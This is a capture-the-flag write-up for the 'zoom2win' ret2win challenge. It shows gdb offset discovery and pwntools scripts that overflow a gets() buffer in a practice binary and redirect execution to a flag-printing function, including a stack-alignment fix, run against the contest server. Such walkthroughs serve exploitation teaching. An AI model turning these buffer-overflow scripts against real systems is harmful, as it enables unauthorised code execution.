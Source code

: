 # zoom2win

by ZeroDayTea

what would CTFs be without our favorite ret2win (nc 143.198.184.186 5003)

## Challenge

In this challenge we were given an ELF-64bit named `zoom2win` with no canary, NX enabled, and no PIE.

```
$ file zoom2win; checksec zoom2win 
zoom2win: ELF 64-bit LSB executable, x86-64,
version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2,
BuildID[sha1]=f4a85541e0d661960a7b05ed51b3513d58e85a5a, for GNU/Linux 3.2.0, not stripped
[*] '/home/kali/Documents/killerqueen/zoom2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Let's try to run it

```
./zoom2win                       
Let's not overcomplicate. Just zoom2win :)
chicken nugget

```

It seems that the program doesn't do anything. Let's open the program using ida to see what the source code looks like.

#### main function
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rbp
  __int64 v5; // [rsp-28h] [rbp-28h]
  __int64 v6; // [rsp-8h] [rbp-8h]

  __asm { endbr64 }
  v6 = v3;
  sub_401070("Let's not overcomplicate. Just zoom2win :)", argv, envp);
  return sub_401090(&v5);
}
```

From the source code, there is another function that caught my eyes. It's `flag` function. Let's take a look.

#### flag
```c
__int64 flag()
{
  __asm { endbr64 }
  return sub_401080("cat flag.txt");
}
```

From the main function, it seems that we need to overflow the input and jump into the `flag` function.

First, we could use gdb to create a pattern.
```
$ gdb -q ./zoom2win    
Reading symbols from ./zoom2win...
(No debugging symbols found in ./zoom2win)
gdb-peda$ pattern create 80
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A'
```

Next, run the program and send the pattern.
```
gdb-peda$ r
Starting program: /home/kali/Documents/killerqueen/zoom2win 
Let's not overcomplicate. Just zoom2win :)
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A

Program received signal SIGSEGV, Segmentation fault.
```

From the output above, we can determine which part of our pattern is hitting the return in main function by examining the `$rsp`.
```
gdb-peda$ x/gx $rsp
0x7fffffffdf48: 0x4141464141304141
gdb-peda$ pattern offset 0x4141464141304141
4702116732032008513 found at offset: 40
```

Nice, we got the offset/padding. Now we need to know the address of `flag` function.
```
gdb-peda$ info func
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401070  puts@plt
0x0000000000401080  system@plt
0x0000000000401090  gets@plt
0x00000000004010a0  setvbuf@plt
0x00000000004010b0  _start
0x00000000004010e0  _dl_relocate_static_pie
0x00000000004010f0  deregister_tm_clones
0x0000000000401120  register_tm_clones
0x0000000000401160  __do_global_dtors_aux
0x0000000000401190  frame_dummy
0x0000000000401196  flag
0x00000000004011b2  main
0x00000000004011de  bufinit
0x0000000000401250  __libc_csu_init
0x00000000004012c0  __libc_csu_fini
0x00000000004012c8  _fini
```

Let's make a solver using python
```python
from pwn import *

padding = 40 # offset from the input to return
flag = 0x0000000000401196 # flag address

s = process("./zoom2win")

payload = b""
payload += b"A"*padding
payload += p64(flag)

print(s.recvline())
s.sendline(payload)
print(s.recvall())

s.close()
```

Now we need to do is just run the program to make sure it works!
![](zoom2win-local.png)

Since it works, lets test on remote server by adding host, port and replacing `s = process("./zoom2win")` to `s = remote(host, port)`
```python
from pwn import *

padding = 40
ret_main = 0x00000000004011dd
flag = 0x0000000000401196

host = "143.198.184.186"
port = 5003

# s = process("./zoom2win")
s = remote(host, port)

payload = b""
payload += b"A"*padding
payload += p64(flag)

print(s.recvline())
s.sendline(payload)
print(s.recvall())

s.close()
```

Now all we need to do is just run the program!
![](zoom2win-serverTry.png)

But sadly we didn't get the flag :(

After some research, it seems the problem is stack alignment (Reference: [Buffer overflow stack alignment](https://youtu.be/vqNQe9xjz2Q)). From the youtube video, all that we need is just the address of return in main function and add it before add the address of flag into the payload.

```python
from pwn import *

padding = 40
ret_main = 0x00000000004011dd
flag = 0x0000000000401196

host = "143.198.184.186"
port = 5003

# s = process("./zoom2win")
s = remote(host, port)

payload = b""
payload += b"A"*padding
payload += p64(ret_main)
payload += p64(flag)

print(s.recvline())
s.sendline(payload)
print(s.recvall())

s.close()
```

Now let's run the program again :D
![](zoom2win.png)

Flag: `kqctf{did_you_zoom_the_basic_buffer_overflow_?}`